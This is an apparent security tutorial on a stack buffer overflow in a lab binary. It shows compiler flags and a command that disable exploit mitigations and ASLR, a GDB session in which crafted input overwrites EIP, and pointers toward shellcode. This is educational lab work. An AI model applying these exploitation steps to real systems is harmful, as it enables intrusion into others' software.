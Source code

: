 This code is vulnerable to a buffer overflow in the function totally_secure()


### Compilation and first look at the binary
    $ gcc vuln.c -o vuln_no_prots -fno-stack-protector -no-pie -Wl,-z,norelro -m32 -z execstack
    $ echo 0 > /proc/sys/kernel/randomize_va_space

First look from inside GDB

    pwndbg> checksec
    [*] '/home/pwnbox/DEP/binary/vuln_no_prots'
        Arch:     i386-32-little
        RELRO:    No RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments

    pwndbg>  

As we can see we've got fully disabled exploit mitigation techniques.
Also no ASLR whatsoever.
This is only for the sake of shining some light on this particular technique.
Combinations of exploit mitigation techniques will be covered at a later time.


### Exploit
A basic overflow is induced by filling the buffer with the following contents:

    pwndbg> c
    Continuing.
    Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB!

    Program received signal SIGSEGV, Segmentation fault.
    0x42424242 in ?? ()
    LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    [─────────────────────────────────────────────────────────────────REGISTERS──────────────────────────────────────────────────────────────────]
    *EAX  0x119
     EBX  0x8049838 (_GLOBAL_OFFSET_TABLE_) —▸ 0x804974c (_DYNAMIC) ◂— 1
    *ECX  0xffffccd0 ◂— 0x41414141 ('AAAA')
    *EDX  0xf7fae870 (_IO_stdfile_1_lock) ◂— 0
     EDI  0xf7fad000 (_GLOBAL_OFFSET_TABLE_) ◂— mov    al, 0x5d /* 0x1b5db0 */
     ESI  0xffffce20 ◂— 0x2
    *EBP  0x41414141 ('AAAA')
    *ESP  0xffffcde0 —▸ 0xffffce00 ◂— 0x0
    *EIP  0x42424242 ('BBBB')
    [───────────────────────────────────────────────────────────────────DISASM───────────────────────────────────────────────────────────────────]
    Invalid address 0x42424242


It shows that we have successfully overwritten the `EIP` and `EBP`
The executed [`ret`](http://c9x.me/x86/html/file_module_x86_id_280.html) instruction took the next value off the stack
and loaded that into the  `EIP` register (our 'BBBB') and then code execution tries to continue from there.
So we can fill the buffer with something like `/bin/sh` + `padding`, or try overflowing that position with shell code.
We can craft one ourselves or take an [already nicely prepared shell code from here](http://shell-storm.org/shellcode/)
